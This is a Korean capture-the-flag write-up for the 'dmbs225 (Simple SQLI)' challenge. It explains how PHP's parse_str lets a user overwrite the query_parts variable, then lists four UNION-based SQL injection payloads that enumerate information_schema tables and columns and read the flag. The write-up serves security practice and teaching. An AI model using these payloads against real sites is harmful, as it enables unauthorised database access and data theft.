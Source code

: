 # dmbs225(Simple SQLI)

1. view-source를 눌러 확인한다.
2. php코드를 보니 parse_str함수가 존재한다.
이는 인자값으로 넘어온 모든 값을 변수로 바꾸기에
매우 취약한 함수이다.
3. 이를 통해 query_parts에 SQLI를 이용해 공격한다.<br>

```css
1. search_cols=zzz&keyword=&operator=or&query_parts=subject%20union%20select%201,2,3,4
위 과정을 통해 SQLI의 유효성을 확인한다.

2. search_cols=zzz&keyword=&operator=or&query_parts=subject%20union%20select%201,2,table_name,4%20from%20information_schema.tables#
위 과정을 통해 flag가 있어보이는 테이블을 찾는다.

3. search_cols=zzz&keyword=&operator=or&query_parts=subject%20union%20select%201,2,column_name,4%20from%20information_schema.columns%20where%20table_name='flag테이블'#
위 과정을 통해 flag가 있는 테이블의 컬럼들을 확인한다.

4. search_cols=zzz&keyword=&operator=or&query_parts=subject%20union%20select%201,2,flag컬럼,4%20from%20flag테이블#
위 과정을 통해 flag값을 얻어낼 수 있다.
```